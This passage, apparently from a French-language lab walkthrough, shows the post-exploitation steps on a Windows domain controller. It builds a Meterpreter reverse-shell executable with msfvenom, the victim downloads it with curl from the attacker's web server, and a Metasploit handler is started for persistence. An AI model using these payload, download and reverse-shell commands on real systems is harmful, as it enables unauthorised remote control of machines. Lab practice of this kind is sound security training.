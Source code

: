 ```sh
kali@kali:~/Documents$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.11.7.104 LPORT=4444 -f exe -o shell.exe
```

Il faut le déplacer sur la machine victime. Pour ça on héberge un serveur web avec `python -m SimpleHTTPServer` :

```sh
kali@kali:~/Documents$ sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Et on le télécharge avec `curl` :

```sh
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Documents>curl http://10.11.7.104/shell.exe --output shell.exe       
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7168  100  7168    0     0   7168      0  0:00:01 --:--:--  0:00:01  148k

controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Documents>dir 
 Volume in drive C has no label. 
 Volume Serial Number is F83F-6346

 Directory of C:\Users\Administrator\Documents
 ```

Le serveur python affiche bien qu'une requête a été effectuée :

```sh
10.10.108.178 - - [17/Aug/2020 12:01:13] "GET /shell.exe HTTP/1.1" 200 -
```

### Run the Persistence Module

Démarrons alors `msfconsole` :

```sh
kali@kali:~/Documents$ sudo msfdb init && sudo msfconsole 
[sudo] password for kali: 
[+] Starting database
...
msf5 > 
```

Déployons le `multi/handler` :

```sh
msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.7.104:4444
```
